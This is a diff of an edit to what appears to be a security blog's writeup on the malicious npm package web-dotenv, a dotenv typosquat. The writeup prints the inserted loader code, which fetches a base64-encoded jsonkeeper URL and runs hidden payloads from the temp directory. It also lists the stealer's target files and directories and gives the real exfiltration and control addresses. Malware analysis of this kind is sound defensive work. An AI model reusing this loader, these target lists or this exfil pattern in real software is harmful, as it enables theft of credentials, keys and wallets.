

Before and after one commit to atomdrift-project/website, a Markdown page: src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md, 2 parts joined by grey strips. Shown at 90% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
+++ b/src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md
@@ -1,18 +1,16 @@
 ---
 title: "web-dotenv: a dotenv typosquat that pulls its payload through jsonkeeper.com"
 date: 2026-05-26
-summary: "The npm package web-dotenv@1.0.2 is a near-byte-identical clone of motdotla/dotenv with a single inserted function. That function fetches an obfuscated loader from jsonkeeper.com, which npm-installs axios + socket.io-client into the temp directory and pulls a 110 KB third stage from 216.126.224.247 — a stealer that walks $HOME for wallet, key, and config files plus a clipboard watcher polling every 750 ms."
+summary: "The npm package web-dotenv@1.0.2 is a near-byte-identical clone of motdotla/dotenv with one inserted function. That function fetches an obfuscated loader from jsonkeeper.com, which npm-installs axios + socket.io-client into the temp directory and pulls a 110 KB third stage from 216.126.224.247 — a stealer that walks $HOME for wallet, key, and config files plus a clipboard watcher polling every 750 ms."
 packageName: web-dotenv
 ecosystem: npm
 ---
 
-`dotenv` ships ~50M weekly downloads on npm. `web-dotenv` (one extra prefix) shipped to npm three days earlier from a fresh gmail. The tarball is fourteen files copied straight out of `motdotla/dotenv` — README, README-es, CHANGELOG, SECURITY, LICENSE, `lib/main.js`, `lib/env-options.js`, `lib/cli-options.js`, `config.js`, the `skills/dotenv/` and `skills/dotenvx/` directories, the lot. The `package.json` even points `repository.url` at `git://github.com/motdotla/dotenv.git`. Diffed against the upstream `dotenv` of the same vintage, `lib/main.js` differs by one function and one call to it.
-
-Everything else is window dressing. The malicious surface is `config()` — the function any consumer calls as `require('web-dotenv').config()` on application boot.
+`dotenv` is one of npm's most-installed packages — about 50M downloads a week. Four days ago a fresh gmail published `web-dotenv` (one prefix away), a near-byte-identical clone whose `package.json` still points `repository.url` at the upstream repo. The diff against `motdotla/dotenv` is one function and one call to it, both inside `lib/main.js`. The trigger is `config()` — what every consumer calls as `require('web-dotenv').config()` on application boot.
 
 ## Stage 1: the inserted function
 
-The diff against the cloned `dotenv` source is two lines. A new top-level helper:
+A new top-level helper, and one call wedged into the first line of `config()`:
 
 <pre class="lang-js"><code><span class="tok-kw">function</span> <span class="tok-fn">configfix</span>() {
   <span class="tok-builtin">require</span>(<span class="tok-str">'axios'</span>).<span class="tok-fn">get</span>(<span class="tok-fn">atob</span>(<span class="tok-str">'CWh0dHBzOi8vd3d3Lmpzb25rZWVwZXIuY29tL2IvVktVTkk='</span>))
@@ -80,17 +66,17 @@ fs.<span class="tok-fn">writeFile</span>(path.<span class="tok-fn">join</span>(o
 <span class="tok-fn">exec</span>(<span class="tok-str">'node ldata'</span>,  { cwd: os.<span class="tok-fn">tmpdir</span>(), windowsHide: <span class="tok-kw">true</span>, stdio: <span class="tok-str">'ignore'</span> });
 </code></pre>
 
-Both files are themselves obfuscated. They are also passed inline a second time as `node -e '<source>'` to a `spawn()` call — a belt-and-braces fallback if the on-disk write fails. The two halves of the implant are independent.
+Both files are also passed inline a second time as `node -e '<source>'` to a `spawn()` call — a belt-and-braces fallback if the on-disk write fails.
 
 ### `scdata` — the file stealer
 
-Walks the user's home directory (and on Windows every logical disk reported by `Get-CimInstance Win32_LogicalDisk | Select-Object -ExpandProperty DeviceID`) looking for files matching any of:
+`scdata` walks the user's home directory (and on Windows every drive reported by `Get-CimInstance Win32_LogicalDisk | Select-Object -ExpandProperty DeviceID`) for files matching:
 
-- Wallet / crypto patterns: `*metamask*`, `*bitcoin*`, `*btc*`, `*solana*`, `*private key*`, `*secret phrase*`, `*.dat`
+- Wallet / crypto: `*metamask*`, `*bitcoin*`, `*btc*`, `*solana*`, `*private key*`, `*secret phrase*`, `*.dat`
 - Secrets / config: `*.env*`, `*.pem`, `*.secret`, `*.key`, `*.json`, `*.yaml`, `*.yml`, `*.ini`, `*.sqlite`
 - Documents: `*.pdf`, `*.docx`, `*.doc`, `*.xlsx`, `*.xls`, `*.csv`, `*.txt`, `*.md`, `*.rtf`, `*.odt`
 
-…inside any of an explicit allow-list of high-value directories. The list reads like a tour of 2026 dev surfaces:
+…inside an allow-list of high-value directories. The list reads like 2026's dev surface — `.claude`, `.cursor`, `.windsurf`, `.pearai`, `.gemini`, `.eigent`, `.devctl` sit next to `.aws`, `.azure`, `.ssh`, `.gnupg`, `.docker`, and the Web3 workspaces `.brownie`, `.move`, `.sol`:
 
 ```
 .aws  .azure  .ssh  .gnupg  .docker  .config  .cache
@@ -100,14 +86,9 @@ Walks the user's home directory (and on Windows every logical disk reported by `
 .steam  .snipaste  .yarn  .nvm  .node-gyp  .expo  .next
 ```
 
-`.claude`, `.cursor`, `.windsurf`, `.pearai`, `.gemini`, `.eigent`, `.devctl` are the giveaway — this is targeting *AI-tool config and history* alongside the old hits. The Solana/Move/Brownie entries cover Web3 workspaces specifically. Each matching file is uploaded as `multipart/form-data` to:
-
-<pre><code>POST http://216.126.224.220:5976/upload
-</code></pre>
-
-Note the separate IP — Stage 3 control lives at `.247`, bulk exfil at `.220:5976`. Both are the same `/22` (`216.126.224.0/22`), which is Tier.Net Technologies LLC; the operator is splitting roles across hosts in one rented range.
+Each match is uploaded as `multipart/form-data` to `http://216.126.224.220:5976/upload`. Stage-3 control sits at `.247`, bulk exfil at `.220`, both inside the same Tier.Net `/22` (`216.126.224.0/22`).
 
 ### `ldata` — the clipboard watcher
 
-A tight loop that polls the clipboard every 750 ms via shell helpers:
+`ldata` polls the clipboard every 750 ms via `pbpaste` (macOS) or `powershell -NoProfile -NonInteractive Get-Clipboard` (Windows) and POSTs deltas back to the Stage-2 host:
 
````
Also changed, not shown: other parts of src/discoveries/2026-05-26-web-dotenv-jsonkeeper-redirector.md (+24 -59 lines).
